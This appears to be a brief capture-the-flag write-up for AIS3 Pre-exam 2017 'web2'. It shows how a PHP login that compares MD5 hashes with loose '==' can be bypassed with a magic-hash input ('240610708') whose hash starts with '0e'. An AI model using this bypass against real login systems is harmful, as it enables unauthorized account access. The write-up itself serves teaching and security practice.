

# AIS3 Pre-exam 2017: web2



## Solution
A login system.
The source code contains the database of username and password.

```
if ($username == $row["username"] and md5($password) == $row["password"])
```

It use "==" to check if the password is correct, so I can just find a password with zero value :)

```
array("username" => "sena", "password" => "0e959146861158620914280512624073")
```

The password is equal to 0e95... = 0, so if I login with sena and find a password that md5 is equal to "0e...", then I will be able to login.

```
username: sena
password: 240610708
```

Flag:
>AIS3{Hey!Why_can_you_login_without_the_password???}
